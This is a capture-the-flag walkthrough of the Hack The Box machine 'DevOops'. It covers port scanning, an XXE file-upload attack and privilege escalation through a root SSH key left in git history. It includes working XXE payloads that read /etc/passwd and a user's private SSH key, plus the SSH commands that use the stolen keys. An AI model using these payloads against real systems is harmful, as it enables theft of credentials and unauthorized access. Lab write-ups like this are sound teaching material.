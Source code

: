 # HTB - DevOops

#### Ip: 10.10.10.91
#### Name: DevOops
#### Rating: Medium

----------------------------------------------------------------------

![DevOops.png](../assets/devoops_assets/DevOops.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/DevOops]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.91  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-08 10:19 CDT
Nmap scan report for 10.10.10.91
Host is up (0.070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 7.04 seconds
```

Lets dive a bit deeper and scan these open ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/DevOops]
└─$ sudo nmap -sC -sV -T4 10.10.10.91 -p 22,5000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-08 10:19 CDT
Nmap scan report for 10.10.10.91
Host is up (0.067s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4290e335318d8b86172afb3890dac495 (RSA)
|   256 b7b6dcc44c879b752a008983edb28031 (ECDSA)
|_  256 d52f1953b28e3a4bb3dd3c1fc0370d00 (ED25519)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.18 seconds
```

Heading to the site on port 5000 we see a page that is under construction:

![site.png](../assets/devoops_assets/site.png)

Doing some directory fuzzing we find an `/upload` directory.

![upload.png](../assets/devoops_assets/upload.png)

Interesting..We've got a file upload area, and there are even some notes about which XML elements are in play. 

Lest test for XXE

### Exploitation

I'll create an .xml file called test.xml with the elements mentioned on the site:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<hey>
    <Author>bob</Author>
    <Subject>bob</Subject>
    <Content>&xxe;</Content>
</hey>
```

And upload this file:

![passwd.png](../assets/devoops_assets/passwd.png)

Nice! That worked! We also see that there is a user named roosa on the box. Lets see if they happen to have an id_rsa file in their home directory. We can create a new .xml file with the following:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa"> ]>
<hey>
    <Author>bob</Author>
    <Subject>bob</Subject>
    <Content>&xxe;</Content>
</hey>
```

After uploading this we succesfully dropped roosa's SSH key:

![id.png](../assets/devoops_assets/id.png)

Lets add that to a file called id_rsa, and then update permissions on it:

```text
┌──(ryan㉿kali)-[~/HTB/DevOops]
└─$ chmod 600 id_rsa
```

We can then use the key to SSH in as user roosa:

```text
┌──(ryan㉿kali)-[~/HTB/DevOops]
└─$ ssh -i id_rsa roosa@10.10.10.91 

<SNIP>

roosa@devoops:~$ whoami
roosa
roosa@devoops:~$ id
uid=1002(roosa) gid=1002(roosa) groups=1002(roosa),4(adm),27(sudo)
roosa@devoops:~$ hostname
devoops
```

We can now grab the user.txt flag:

![user_flag.png](../assets/devoops_assets/user_flag.png)

### Privilege Escalation

Finding a `.git` folder I realize roosa and team are utilizing git. Lets see if we can find any commits:

![git.png](../assets/devoops_assets/git.png)

Cool, we can see several different commits. 

Scrolling through them, this one seems especially interesting to me:

![com.png](../assets/devoops_assets/com.png)

Lets check it out:

![show.png](../assets/devoops_assets/show.png)

Nice, we can see that the key in red was replaced by the key in green. 

![change.png](../assets/devoops_assets/change.png)

Lets see who else on the box has bash enabled, and who the key may belong to:

![bash.png](../assets/devoops_assets/bash.png)

Just a few choices here. 

Lets copy the key back to our attacking machine and try to SSH in as root:

```text
┌──(ryan㉿kali)-[~/HTB/DevOops]
└─$ chmod 600 new_key       
                                                                                                                     
┌──(ryan㉿kali)-[~/HTB/DevOops]
└─$ ssh -i new_key root@10.10.10.91 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Fri Sep 23 09:46:30 2022
root@devoops:~# whoami
root
root@devoops:~# hostname
devoops
```

Nice! That key worked for root!

Lets grab our root.txt flag:

![root_flag.png](../assets/devoops_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------------------------
